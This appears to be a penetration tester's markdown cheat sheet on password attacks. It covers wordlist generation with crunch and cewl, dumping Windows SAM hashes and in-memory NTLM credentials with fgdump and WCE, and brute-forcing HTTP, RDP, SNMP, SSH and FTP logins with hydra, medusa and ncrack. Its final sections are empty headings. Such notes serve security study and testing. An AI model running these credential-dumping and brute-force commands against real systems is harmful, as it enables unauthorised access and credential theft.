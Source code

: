 ## Password file generator

### crunch
##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
 #### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
 #### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
  
### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***

### Password Profiling
##### cewl
  ***cewl <victim_www_url> -d [num] -m [num] -w [file.txt]***
  
### Online password attacks

#### HTTP Brute force attack
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http

#### RDP Brute force attack
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP Brute force attack
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH Brute force attack
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

### FTP Brute force attack
- hyrda -L [user_file] -p [password] [victim_ip] ftp

### Usefull flag
-vV : verbose mode
-e nsr : login as password or login as password in reversed order etc
-t : threads

### Password Hash Attack
#### Hash identifier
  ***- hash-identifier ***

#### John the ripper

### Pass the hash
